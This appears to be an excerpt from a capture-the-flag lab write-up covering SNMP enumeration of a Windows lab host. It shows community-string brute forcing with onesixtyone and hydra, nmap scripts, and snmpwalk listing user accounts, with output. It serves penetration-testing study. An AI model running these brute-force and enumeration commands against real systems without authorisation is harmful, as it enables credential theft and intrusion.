 > **SNMP (Simple Network Management Protocol)**
> 

`onesixtyone $target_ip -c /usr/share/seclists/Discovery/SNMP/snmp-onesixtyone.txt`

```bash
Scanning 1 hosts, 3218 communities
10.10.211.238 [openview] Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
```

`hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt -q $target_ip snmp`

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 118 login tries (l:1/p:118), ~8 tries per task
[DATA] attacking snmp://10.10.211.238:161/
[161][snmp] host: 10.10.211.238   password: openview
```

`nmap --script "snmp* and not snmp-brute" -T4 -A -O 10.10.211.238 -oN nmap_snmp_result.txt`

```bash
Nmap scan report for 10.10.211.238
Host is up (0.38s latency).
Not shown: 994 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.4.10
445/tcp  open  microsoft-ds?
3306/tcp open  mysql?
| fingerprint-strings: 
|   NULL: 
|_    Host 'ip-10-2-37-37.eu-west-1.compute.internal' is not allowed to connect to this MariaDB server
3389/tcp open  ms-wbt-server Microsoft Terminal Services
```

`snmpwalk -c openview -v1 $target_ip 1.3.6.1.4.1.77.1.2.25 -n -f`

```bash
iso.3.6.1.4.1.77.1.2.25.1.1.5.71.117.101.115.116 = STRING: "Guest"
iso.3.6.1.4.1.77.1.2.25.1.1.6.74.97.114.101.116.104 = STRING: "Jareth"
iso.3.6.1.4.1.77.1.2.25.1.1.13.65.100.109.105.110.105.115.116.114.97.116.111.114 = STRING: "Administrator"
iso.3.6.1.4.1.77.1.2.25.1.1.14.68.101.102.97.117.108.116.65.99.99.111.117.110.116 = STRING: "DefaultAccount"
iso.3.6.1.4.1.77.1.2.25.1.1.18.87.68.65.71.85.116.105.108.105.116.121.65.99.99.111.117.110.116 = STRING: "WDAGUtilityAccount"
```

`snmp-check $target_ip -c openview -p 161`

```bash
[*] System information:

  Host IP address               : 10.10.211.238
  Hostname                      : year-of-the-owl
  Description                   : Hardware: Intel64 Family 6 Model 79 Stepping 1 AT/AT COMPATIBLE - Software: Windows Version 6.3 (Build 17763 Multiprocessor Free)
  Contact                       : -
  Location                      : -
  Uptime snmp                   : 00:42:14.64
  Uptime system                 : 00:41:27.21
  System date                   : 2024-9-6 21:24:53.4
  Domain                        : WORKGROUP

```